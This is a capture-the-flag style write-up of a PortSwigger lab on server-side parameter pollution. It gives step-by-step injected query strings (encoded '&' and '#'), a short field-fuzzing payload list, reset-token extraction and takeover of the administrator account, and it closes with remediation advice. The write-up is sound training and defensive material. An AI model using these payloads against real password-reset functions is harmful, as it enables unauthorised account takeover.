







# Lab: Exploiting Server-Side Parameter Pollution in a Query String

## Lab Information

- **Category:** API Testing
- **Lab Name:** Exploiting Server-Side Parameter Pollution in a Query String
- **Difficulty:** Practitioner
- **Status:** Solved

## Objective

Exploit a Server-Side Parameter Pollution (SSPP) vulnerability in the password reset functionality to obtain the administrator's password reset token, reset the administrator account password, and delete the user `carlos`.

---

## Vulnerability Overview

The application's password reset endpoint internally constructs API requests using user-controlled input. By injecting URL-encoded query delimiters and truncation characters, it is possible to manipulate backend parameters and access hidden fields that should not be exposed.

This allows an attacker to retrieve sensitive information such as password reset tokens.

---

## Methodology

### Step 1: Trigger Password Reset

Navigate to the password reset functionality and submit a reset request for:

```text
administrator
```

Capture the request:

```http
POST /forgot-password
```

### Evidence



---

### Step 2: Verify Username Validation

Modify the username parameter:

```text
administratorx
```

The server returns:

```json
Invalid username
```

### Evidence



---

### Step 3: Confirm Parameter Pollution

Inject a URL-encoded ampersand:

```text
username=administrator%26x=y
```

Response:

```json
Parameter is not supported
```

This indicates the backend interpreted:

```text
&x=y
```

as a separate parameter.

### Evidence



---

### Step 4: Discover Hidden Parameters

Inject an additional parameter:

```text
username=administrator%26field=x%23
```

Response:

```json
Invalid field
```

This reveals the existence of a backend parameter named:

```text
field
```

### Evidence



---

### Step 5: Enumerate Valid Field Values

Send the request to Burp Intruder and fuzz the value of the `field` parameter.

Payload list:

```text
username
email
password
reset_token
token
id
name
```

Results show several valid fields returning HTTP 200 responses.

### Evidence



---

### Step 6: Extract Administrator Reset Token

Modify the request:

```text
username=administrator%26field=reset_token%23
```

The response returns the administrator's password reset token.

### Evidence



---

### Step 7: Reset Administrator Password

Use the extracted token with:

```text
/forgot-password?reset_token=<TOKEN>
```

Set a new password for the administrator account.

---

### Step 8: Login as Administrator

Authenticate using:

```text
Username: administrator
Password: <new password>
```

Access the administrator panel.

---

### Step 9: Delete Carlos

Navigate to the Admin Panel and delete:

```text
carlos
```

The lab is successfully solved.

---

## Final Result

The vulnerability allowed backend parameter manipulation through URL query pollution, leading to disclosure of the administrator's password reset token and full account compromise.

### Evidence



---

## Security Impact

This vulnerability can result in:

- Disclosure of sensitive backend fields
- Password reset token leakage
- Account takeover
- Privilege escalation
- Administrative access compromise

---

## Remediation

- Properly sanitize user-controlled input.
- Reject unexpected query parameters.
- Use parameterized backend API calls.
- Validate and whitelist accepted parameters.
- Avoid constructing internal API requests using raw user input.
- Implement strict server-side input validation.

---

## References

- PortSwigger Web Security Academy
- Server-Side Parameter Pollution (SSPP)
- OWASP API Security Top 10